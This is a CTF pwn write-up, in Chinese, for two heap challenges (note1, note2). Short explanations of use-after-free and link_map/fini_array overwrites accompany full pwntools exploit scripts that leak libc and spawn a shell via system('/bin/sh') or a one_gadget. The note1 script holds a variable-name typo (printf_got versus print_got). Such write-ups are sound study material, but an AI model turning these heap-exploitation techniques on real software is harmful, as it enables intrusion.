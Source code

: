 ```yaml
---
title: 2022 柏鹭杯 pwn Writeup
date: 2022-09-16 06:54:59 +0800
categories:
  - ctf比赛
tags:
  - pwn
  - ctf
permalink: /posts/id=45/
pin: false
---
```


## note1

![image-20220916152727115](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220916152727115.png)

漏洞点在3功能call会引用一个放在堆上的show功能的地址，以及放在堆上参数

![image-20220916152740387](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220916152740387.png)

在edit_name功能中将堆块释放后未置空就再次申，导致了堆叠

![image-20220916153013589](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220916153013589.png)

利用edit将管理结构体中的堆块地址换成got表的地址泄露libc，再将用同样的方式把ptr+8换成system，ptr换成/bin/sh即可

```python
# _*_ coding:utf-8 _*_
from pwn import *
import sys
import struct
import os
import hashlib
from hashlib import sha256

context.log_level = "debug"
context.arch = "amd64"
# context.terminal = ['cmd.exe', '/c', 'wt.exe', '-w', '0','--title', 'gdb', 'bash', '-c']
context.terminal = ['tmux', 'splitw', '-h']

# p = remote("","")
p = process("./note1")
elf = ELF("./note1")
libc = elf.libc

def dbg():
    gdb.attach(p)
    pause()

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
ia      = lambda                    :p.interactive()
hs256   = lambda data               :sha256(str(data).encode()).hexdigest()
l32     = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
l64     = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
uu32    = lambda                    :u32(p.recv(4).ljust(4,'\x00'))
uu64    = lambda                    :u64(p.recv(6).ljust(8,'\x00'))
int16   = lambda data               :int(data,16)
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))
#-----------------------------------------------------------------------------------------
def add(idx,size,name,tag,func):
    sla("> ",1)
    sla("id: ",idx)
    sla("name_length: ",size)
    p.sendlineafter("name: ",name)
    p.sendlineafter("tag: ",tag)
    sla("func: ",func)

def edit_name(idx,size,name):
    sla("> ",2)
    sla("id: ",idx)
    sla("> ",1)
    sla("name_length: ",size)
    p.sendlineafter("name: ",name)

def edit_tag(idx,tag):
    sla("> ",2)
    sla("id: ",idx)
    sla("> ",2)
    p.sendafter("new tag: ",tag)

def edit_func(idx,func):
    sla("> ",2)
    sla("id: ",idx)
    sla("> ",3)
    sla("func: ",func)  

def call(idx):
    sla("> ",3)
    sla("id: ",idx)

add(0,0x500,'b'*0x100,'', 1)
edit_tag(0,'a' * 8)
edit_func(0, 1)
call(0)
p.recvuntil("aaaaaaaa")
base = uu64()-0x131b
lg('base')
printf_got = base + 0x3FA8

edit_name(0, 0x17, '')
add(1,0x17,'','',1)
edit_name(0, 0x101,'b'*0x20 + p64(0) + p64(base + 0x131b)+p64(print_got))
call(1)
ru("name: ")
libc_base = l64()-0x61c90
lg('libc_base')
system = libc_base + 0x52290
edit_name(0, 0x101,'b' * 0x20 +'/bin/sh\x00' + p64(system))
call(1)
ia()
```

## note2

有2种方法，具体分析可看第一种方法，用house of banana求解：

[https://blog.e4l4.com/posts/IO%E5%88%A9%E7%94%A8%E6%80%BB%E7%BB%93/#note2](https://blog.e4l4.com/posts/IO%E5%88%A9%E7%94%A8%E6%80%BB%E7%BB%93/#note2)

第二种方法是利用任意地址写去修改程序的基地址(link_map)，程序返回时会调用的fini_array数组里的内容，导致触发one_gadget

![image-20220922151335506](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220922151335506.png)

```python
# _*_ coding:utf-8 _*_
from pwn import *
import sys
import struct
import os
import hashlib
from hashlib import sha256

# context.log_level = "debug"
context.arch = "amd64"
context.terminal = ['tmux', 'splitw', '-h']

# p = remote("39.101.69.5","12032")
# p = process('./ld-2.33.so ./TinyNote'.split(),env={'LD_PRELOAD':'./libc-2.33.so'})
p = process("./note2")
elf = ELF("./note2")
libc = ELF("./libc.so.6")

def dbg():
    gdb.attach(p)
    pause()

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
ia      = lambda                    :p.interactive()
hs256   = lambda data               :sha256(str(data).encode()).hexdigest()
l32     = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
l64     = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
uu32    = lambda                    :u32(p.recv(4).ljust(4,'\x00'))
uu64    = lambda                    :u64(p.recv(6).ljust(8,'\x00'))
int16   = lambda data               :int(data,16)
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))
#-----------------------------------------------------------------------------------------

def add(idx,size,con=''):
    sla("> ",1)
    sla("> ",idx)
    sla("> ",size)
    p.sendlineafter("Enter content: ",con)

def show(idx):
    sla("> ",3)
    sla("> ",idx)

def dele(idx):
    sla("> ",2)
    sla("> ",idx)


for i in range(10):
    add(i,0x90)
for i in range(8):
    dele(i)
show(7)
libc_base = l64()-0x219ce0
lg('libc_base')
link_map = libc_base+0x2712e0

show(0)
key = u64(p.recv(5).ljust(8,'\x00'))
lg("key")
heap_base = key<<12
lg("heap_base")

dele(8)
add(0,0x90)
dele(8)

add(1,0xc0,'a'*0xa0+p64((link_map)^key))
add(2,0x90,p64(libc_base + 0xebcf1))# +0x7a0
add(3,0x90,p64(heap_base+0x7a0-0x3d78))
sla("> ",4)

ia()
```



